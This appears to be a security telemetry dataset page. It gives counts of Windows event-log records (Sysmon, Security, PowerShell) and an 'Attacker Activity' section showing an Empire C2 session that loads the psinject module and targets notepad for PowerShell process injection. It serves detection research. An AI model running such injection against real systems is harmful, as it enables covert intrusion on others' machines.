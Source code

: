 | Security                                   | Microsoft-Windows-Security-Auditing | File Share                                             |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | SAM                                                    |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | Security Group Management                              |               1 |
| Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity      | na                                                     |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |            1442 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             538 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             408 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             257 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | CreateRemoteThread detected (rule: CreateRemoteThread) |              88 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              67 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              44 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |              38 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |              13 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |              11 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |              10 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |            1711 |

## Attacker Activity

```
(Empire: TKV35P8X) > usemodule management/psinject 
(Empire: powershell/management/psinject) > set ProcName notepad
(Empire: powershell/management/psinject) > info   

              Name: Invoke-PSInject
            Module: powershell/management/psinject
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @harmj0y
  @sixdub
  leechristensen (@tifkin_)

Description:
  Utilizes Powershell to to inject a Stephen Fewer formed
  ReflectivePick which executes PS codefrom memory in a remote
  process

Comments:
  http://sixdub.net

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  ProcId     False                                 ProcessID to inject into.               
  ProxyCreds False       default                   Proxy credentials                       
```